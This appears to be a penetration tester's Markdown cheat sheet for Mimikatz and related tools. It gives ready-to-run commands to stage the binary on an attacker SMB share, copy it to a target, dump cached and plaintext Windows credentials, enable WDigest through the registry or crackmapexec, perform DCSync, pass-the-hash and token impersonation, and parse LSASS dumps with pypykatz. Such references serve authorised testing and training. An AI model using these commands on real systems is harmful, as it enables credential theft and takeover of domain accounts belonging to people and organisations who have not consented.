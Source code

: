 # Mimikatz

## Mimikatz

### Locate

```bash
$ locate mimikatz.exe
/usr/share/windows-resources/mimikatz/Win32/mimikatz.exe
/usr/share/windows-resources/mimikatz/x64/mimikatz.exe
```

### Host mimikatz

```bash
cd /usr/share/windows-resources/mimikatz/
impacket-smbserver share $(pwd) -smb2support
```

### Copy to Target

Copy to Target - x86

```cmd
xcopy \\<Kali IP>\share\Win32\mimikatz.exe C:\Temp\mimikatz\
```

Copy to Target - x64

```cmd
xcopy \\<Kali IP>\share\x64\mimikatz.exe C:\Temp\mimikatz\
```

### Get all available creds

```cmd
cd C:\Temp\mimikatz\
C:\Temp\mimikatz\mimikatz.exe "privilege::debug" "log sekurlsa.log" "sekurlsa::logonpasswords" exit
```

Only `wdigest`

```cmd
cd C:\Temp\mimikatz\
C:\Temp\mimikatz\mimikatz.exe "privilege::debug" "log sekurlsa.log" "sekurlsa::wdigest" exit
```

LSA cache

```cmd
C:\Temp\mimikatz\mimikatz.exe "privilege::debug" "token::elevate" "lsadump::cache" exit
```

### Enabling wgigest

```bash
crackmapexec smb <Target_IP> -u '<username>' -p '<password>' -M wdigest -o ACTION=enable
```

OR

```cmd
reg query HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1
```

### runas

```cmd
runas /noprofile /user:<DOMAIN>\<USER> C:\Temp\mimikatz\mimikatz.exe
```

OR (example for DCSync)

```powershell
$SecPassword = ConvertTo-SecureString '<PWD>' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('<DOMAIN>\<USER>', $SecPassword)
Start-Process C:\Temp\mimikatz\mimikatz.exe -Credential $Cred -ArgumentList '"lsadump::dcsync /user:<DOMAIN>\<TARGET_USER>"'
```

PTH (pass the hash)

```powershell
C:\Temp\mimikatz\mimikatz.exe "privilege::debug" "sekurlsa::pth /user:<USER> /domain:<DOMAIN> /ntlm:<HASH>" exit
```

Elevate (impersonate user)

```powershell
token::elevate /user:<USER>
```

## Pypykatz

Get secrets from memory dump

```bash
pypykatz lsa minidump --grep lsass.DMP
```

## Links

- [wdigest](https://www.hackingarticles.in/credential-dumping-wdigest/)
- [-wdigest-exploration](https://www.jimmwayans.com/mimikatz-exploration-wdigest/)
- [ERROR kuhl_m_sekurlsa_acquireLSA ; Key import](https://github.com/gentilkiwi/mimikatz/issues/248)